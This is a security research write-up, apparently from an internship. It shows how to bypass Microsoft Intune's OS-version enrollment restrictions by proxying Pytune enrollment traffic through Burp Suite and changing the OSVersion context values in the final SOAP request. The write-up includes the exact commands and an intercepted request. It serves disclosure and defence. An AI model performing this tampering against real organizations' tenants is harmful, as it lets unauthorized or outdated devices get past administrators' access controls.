


# Breaking Intune enrollment restrictions

## Introduction 
This write-up is about research on Microsoft Intune’s Windows enrollment flow. The original goal was to identify attack paths in Intune device enrollment that could be used to gain initial access. As the work progressed, the focus shifted to understanding how enrollment state is established, which server-side validations gate enrollment, and where client-provided device context can influence outcomes. This write-up focuses on the technical findings around device context mutation and what that means for enrollment restrictions.

This research was completed during my internship at Bureau Veritas Cybersecurity for Fontys University of Applied Sciences.
## Prerequisites
[Pytune](https://github.com/secureworks/pytune) was used to simulate the enrollment process and create repeatable traffic. To observe the enrollment flow, the traffic was proxied by using the proxy option (-x):
```
python3 pytune.py -x http://localhost:[port] entra_join -o Windows -d Example -u Example@[REDACTED] -p [REDACTED]
```
I used Burp Suite Community Edition as the proxy. When the proxy is enabled, enrollment traffic appears under the Proxy tab and can be intercepted like browser traffic:


## Enrollment process context
The enrollment flow for Windows endpoints consists of 12 requests. The first two requests complete the Entra device registration and return the tenant-specific metadata needed to continue. The remaining requests prepare the enrollment by retrieving service endpoints (e.g. MS Graph & Win32 API).

The 12th request is the enrollment boundary. The SOAP body contains the certificate signing request and an `<AdditionalContext>` block that includes device context values such as device identifiers and version fields. If the service accepts this request, it returns the issued MDM certificate.
```
...
<ac:AdditionalContext xmlns="http://schemas.xmlsoap.org/ws/2006/12/authorization">
...
                    </ac:ContextItem>
                    <ac:ContextItem Name="OSVersion">
                        <ac:Value>10.0.19045.2006</ac:Value>
                    </ac:ContextItem>
                    <ac:ContextItem Name="ApplicationVersion">
                        <ac:Value>10.0.19045.2006</ac:Value>
                    </ac:ContextItem>
                </ac:AdditionalContext>
            </wst:RequestSecurityToken>
        </s:Body>
```
The AdditionalContext is a mix of user-supplied values and values that come from Pytune’s Windows device profile. In the base profile the OS version is set to 10.0.19045.2006. During testing, some of these ContextItem's could be changed in transit without breaking the enrollment flow. That gap is what the PoC relies on.
## Proof of Concept
### Setup
The proof of concept shows that OS-version-based enrollment restrictions can be undermined when Intune relies on client-provided device context during enrollment. The setup uses a configuration where OS enrollment restrictions are intended to only allow the most recent Windows 11 build (no. 10.0.26100.7462) and block older, unsupported versions:


For this POC the OS version was set to a purposely vulnerable OS version: 6.1.7601.17514, a build of Windows 7 that has been historically linked to EternalBlue. In a normal enrollment attempt, that build version should block by the enrollment restriction. Like so:


### Execution
In the PoC, the key change is that the OS version presented to the enrollment service during the final enrollment request is intercepted and modified using Burpsuite.
1. Start the enrollment
```
python3 pytune.py -x http://localhost:8080 entra_join -o Windows -d Example -u Example@[REDACTED] -p [REDACTED]
```
2. Pytune now starts the enrollment using it's newly configured default Windows credentials `"DeviceType": "Windows"` and `"OSVersion":"6.1.7601.17514"`
3. The enrollment isn't stopped at the Entra join phase, because Intune enrollment restrictions don't apply there.
4. The enrollment continues as normal, untill step 12. That one is intercepted in Burpsuite:
```
POST /StatelessEnrollmentService/DeviceEnrollment.svc HTTP/1.1
Host: fef.msub09.manage.microsoft.com
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Content-Type: application/soap+xml; charset=utf-8
Content-Length: 8306

....

                        <ac:Value>Device</ac:Value>
                    </ac:ContextItem>
                    <ac:ContextItem Name="DeviceType">
                        <ac:Value>CIMClient_Windows</ac:Value>
                    </ac:ContextItem>
                    <ac:ContextItem Name="OSVersion">
                        <ac:Value>6.1.7601.17514</ac:Value>            <-------------- This values should be changed to an acceptable build
                    </ac:ContextItem>
                    <ac:ContextItem Name="ApplicationVersion">
                        <ac:Value>6.1.7601.17514</ac:Value>            <-------------- This values should be changed to an acceptable build
                    </ac:ContextItem>
                </ac:AdditionalContext>
            </wst:RequestSecurityToken>
        </s:Body>
    </s:Envelope>
```
5. The `ContextItem`'s for 'OSVersion' and 'ApplicationVersion' should be changed to an acceptable build, in this case: '10.0.26100.7462'. And forwarded in Burpsuite.
6. The enrollment service accepts the enrollment request and grants a valid MDM certificate:



7. The final step is performing a check-in, to sync device information to the portal:
```
python3 pytune.py -x checkin -o Windows -d Example -c Example.pfx -m Example_mdm.pfx -u Example@[REDACTED] -p [REDACTED]
```
### Result
And the device appears enrolled while not having an acceptable OS version:


## Conclusion
This proof of concept shows that OS-version-based enrollment restrictions can be undermined. By changing the version values presented during enrollment, a device can be admitted even though its underlying OS version would normally be blocked. 

The impact described here is however limited to the PoC scope and assumes no additional enforcement such as compliance policies is present. The most important takeaway is that enrollment restrictions should be treated as a best-effort barrier control, not as a security boundary as per [Microsoft](https://learn.microsoft.com/en-us/intune/intune-service/enrollment/enrollment-restrictions-set).


## Sources
- https://learn.microsoft.com/en-us/security-updates/Securitybulletins/2017/ms17-010
- https://learn.microsoft.com/en-us/entra/identity-platform/scenario-desktop-acquire-token-wam
- https://learn.microsoft.com/en-us/intune/intune-service/fundamentals/deployment-guide-enrollment
- https://learn.microsoft.com/nl-nl/entra/msal/dotnet/advanced/proof-of-possession-tokens
- https://learn.microsoft.com/en-us/entra/identity-platform/refresh-tokens
- https://learn.microsoft.com/en-us/intune/configmgr/core/plan-design/configs/support-for-windows-11#support-notes
- https://learn.microsoft.com/en-us/lifecycle/announcements/windows-10-end-of-support


